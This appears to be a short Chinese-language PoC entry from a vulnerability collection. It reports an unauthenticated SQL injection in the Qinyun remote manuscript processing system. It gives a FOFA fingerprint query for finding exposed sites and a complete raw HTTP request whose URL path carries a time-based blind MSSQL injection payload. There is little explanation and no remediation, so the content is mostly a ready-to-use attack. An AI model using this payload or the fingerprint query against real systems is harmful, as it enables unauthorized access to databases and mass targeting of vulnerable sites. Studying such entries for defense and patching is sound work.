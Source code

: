 # 勤云远程稿件处理系统存在SQL注入漏洞

勤云远程稿件处理系统 存在SQL注入漏洞，未经身份验证的远程攻击者除了可以利用 SQL 注入漏洞获取数据库中的信息。

## fofa
```javascript
body="北京勤云科技"
```

## poc
```javascript
GET /burpsuite'if%20db_name(1)='master'%20waitfor%20delay%20'0:0:5'--/article/abstract/1 HTTP/1.1
Host: 
Connection: keep-alive
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

![image-20241227220754753](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202412272207815.png)